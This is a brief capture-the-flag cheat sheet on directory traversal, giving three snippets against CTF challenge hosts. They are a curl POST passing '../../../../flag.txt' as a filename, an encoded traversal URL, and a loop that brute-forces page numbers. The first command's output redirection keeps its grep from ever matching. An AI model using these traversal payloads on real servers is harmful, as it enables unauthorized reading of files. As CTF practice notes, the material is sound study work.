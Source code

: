 ### Directory Traversal

---

```py
#!/bin/bash
curl -X POST "http://saturn.picoctf.net:52472/read.php" -d filename=../../../../flag.txt >/dev/null 2>&1 | grep -ho "picoCTF{.*}"
```

```py
https://vertical-traversal.tuctf.com/get/...%2Fflag.txt
```

```py
for i in $(seq 3000 4000); do curl -s https://directory.web.actf.co/$i.html | grep -v "another file";done
```
